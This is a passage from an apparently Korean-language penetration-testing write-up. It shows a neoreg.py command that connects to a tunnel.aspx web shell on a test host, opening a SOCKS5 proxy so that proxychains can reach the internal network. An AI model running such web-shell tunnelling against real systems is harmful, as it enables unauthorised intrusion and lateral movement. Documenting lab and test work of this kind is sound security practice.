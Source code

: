 이후 neoreg.py를 통해 SOCK5 통신을 열면 127.0.0.1:1080이 활성화되는 것을 확인할 수 있습니다.

```bash
python3 neoreg.py -k password -u http://pentest.yoobi.kr:10502/tunnel.aspx
```

![Untitled](/assets/2024-03-20//Untitled%2023.png)

활성된 SOCK5 포트를 사용한 proxychains을 통해 내부망 접근이 가능합니다.
